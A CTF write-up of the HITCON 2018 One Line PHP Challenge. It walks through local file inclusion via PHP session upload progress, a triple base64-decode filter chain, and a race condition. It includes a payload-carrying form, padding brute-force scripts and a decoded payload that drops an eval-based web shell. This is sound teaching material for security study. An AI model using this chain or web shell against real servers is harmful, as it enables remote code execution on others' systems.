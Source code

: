 ### References

- [@rai4over, HITCON 2018 One Line PHP Challenge, 2018-11-01](http://www.rai4over.cn/2018/HITCON-2018-One-Line-PHP-Challenge/)
- [@Orange, HITCON CTF 2018 - One Line PHP Challenge, 2018-10-24](http://blog.orange.tw/2018/10/hitcon-ctf-2018-one-line-php-challenge.html)
- [@kingkk, hitcon2018 One Line PHP Challenge, 2018-10-24](https://www.kingkk.com/2018/10/hitcon2018-One-Line-PHP-Challenge/)

**Tag: Session upload progress, PHP wrappers, Race condition**

1.Send POST request, and the cookie contains `PHPSESSID=JustATest`, and provide the `PHP_SESSION_UPLOAD_PROGRESS` in multipart POST data (defined in [session.upload_progress.name](https://www.php.net/manual/en/session.configuration.php#ini.session.upload-progress.name)).

while this field is included in the upload package, PHP will automatically enable Session, and since `PHPSESSID=xxxx` is set in the Cookie, the Session file will be created automatically which named `sess_JustATest`.

We can write the following form to help us constructing upload package:

```html
<html>
<body>
<form action="http://127.0.0.1/index.php" method="POST" enctype="multipart/form-data">
    <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="@<?php phpinfo();?>" />
    <input type="file" name="test" />
    <input type="submit" />
</form>
</body>
</html>
```

The content of the session file is partly controllable, and the content is as follows:

```tex
upload_progress_@<?php phpinfo();?>|a:5:{s:10:"start_time";i:1541075498;......
```

ok, this mean we need to cleanup the prefix.

2.In PHP, the `base64` will ignore invalid characters. So we combine multiple `convert.base64-decode` filter to that.

The base64 decoded needs to be a multiple of 4 characters, so we need two characters padding, run this script to brute force:

```python
import base64
import string

def decode(str):
    return base64.b64decode(base64.b64decode(base64.b64decode(str)))

s = "upload_progress_"
string_list = string.ascii_letters + string.digits

for x in string_list:
    for y in string_list:
        try:
            r = decode(s + str(x) + str(y))
        except Exception:
            pass
        else:
            if r == b'':
                print(s + str(x) + str(y))
```

Choose one of the results such as `upload_progress_cv`, this will be empty after we decode it three times:

```python
>>> import base64
>>> def decode(str):
...     return base64.b64decode(base64.b64decode(base64.b64decode(str)))
...
>>> decode('upload_progress_cv')
b''
```

3.Then we can use the following url to include the session file:

```tex
?orange=php://filter/convert.base64-decode|convert.base64-decode|convert.base64-decode/resource=/var/lib/php/sessions/sess_JustATest
```

But there is another problem that the character `=` in base64 can only be placed at the end of the code for bit-filling.

If `=` in the middle, the `convert.base64-decode` can't be resolved normally. So we need padding to improve compatibility. Run the script modified from orange:

```python
import base64

for i in range(36):
    junk = 'a' * i
    arg = PAYLOAD.encode() + junk.encode()
    x = b64encode(arg).decode()
    xx = b64encode(b64encode(arg)).decode()
    xxx = b64encode(b64encode(b64encode(arg))).decode()
    if '=' not in x and '=' not in xx and '=' not in xxx:
        xxx = 'upload_progress_cv' + xxx
        print(xxx)
        break
```

check if it can work fin:

```python
>>> decode('upload_progress_cvVVVSM0wyTkhhSGRKUjFacVlVYzRaMG96UW05alJ6bHlTbnAwYldGWGVHeFlNMEl4WkVZNWFtSXlOVEJhVnpVd1kzbG5ibU5IT1dwTWJrSnZZME5qYzFsdFJucGFWRmt3V0RKU2JGa3lPV3RhVTJkdVZVVlJOV1F5UmtsUlYyUlNVakZaZVZkV1pETmlNSEJIVDFaT1UxWnJXbGRWYkZwUFZsWmplVkp0VWt4V1JHZHlTbmxyY0U5Nk9DdFpWMFpv')
b"@<?php echo 'phpok';file_put_contents('poc.php',base64_decode('PD9waHAgQGV2YWwoJF9SRVFVRVNUW2FdKT8+'));?>aaa"
```

4.The final question is that the default `session.upload_progress.cleanup` in PHP is On. It means your upload progress in the session will be cleaned as soon as possible!

Here we use race condition to catch our data

![img1](./assets/img1.png?raw=true)
